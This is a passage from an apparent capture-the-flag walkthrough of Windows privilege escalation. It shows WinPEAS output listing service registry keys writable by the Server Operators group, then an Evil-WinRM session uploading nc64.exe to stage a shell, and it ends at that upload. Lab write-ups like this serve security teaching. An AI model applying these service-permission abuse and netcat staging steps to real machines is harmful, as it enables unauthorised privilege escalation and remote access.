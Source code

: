 The ability to start and stop services is interesting for sure.

This user has the ability to edit any service. If I run
[WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-
suite/tree/master/winPEAS), I can see this more clearly:

    
    
      [+] Looking if you can modify any service registry()
       [?] Check if you can modify the registry of a service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services-registry-permissions
        HKLM\system\currentcontrolset\services\.NET CLR Data (Server Operators [WriteData/CreateFiles GenericWrite])     
        HKLM\system\currentcontrolset\services\.NET CLR Networking (Server Operators [WriteData/CreateFiles GenericWrite])                                                   
        HKLM\system\currentcontrolset\services\.NET CLR Networking 4.0.0.0 (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\.NET Data Provider for Oracle (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\.NET Data Provider for SqlServer (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\.NET Memory Cache 4.0 (Server Operators [WriteData/CreateFiles GenericWrite])                                                
        HKLM\system\currentcontrolset\services\.NETFramework (Server Operators [WriteData/CreateFiles GenericWrite])     
        HKLM\system\currentcontrolset\services\1394ohci (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\3ware (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\ACPI (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\AcpiDev (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\acpiex (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\acpipagr (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\AcpiPmi (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\acpitime (Server Operators [WriteData/CreateFiles GenericWrite]) 
    ...[snip]...
    

### Exploit Service

To get a shell, I’ll upload `nc64.exe`:

    
    
    *Evil-WinRM* PS C:\programdata> upload /opt/shells/netcat/nc64.exe
    Info: Uploading /opt/shells/netcat/nc64.exe to C:\programdata\nc64.exe
    
                                                                 
    Data: 60360 bytes of 60360 bytes copied
    
    Info: Upload successful!
    